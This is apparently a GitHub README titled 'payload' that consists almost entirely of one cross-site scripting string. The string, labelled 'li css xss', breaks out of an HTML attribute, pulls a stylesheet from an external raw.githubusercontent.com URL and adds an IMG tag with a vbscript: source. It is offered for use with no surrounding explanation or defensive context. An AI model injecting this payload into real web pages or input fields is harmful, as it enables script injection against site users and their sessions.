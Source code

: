 # payload


- li css xss: `s'"><LINK REL="stylesheet" HREF="https://raw.githubusercontent.com/netsec1337/payload/main/xssli.css"><UL><LI>XSS</br><IMG SRC='vbscript:msgbox("XSS")'>`

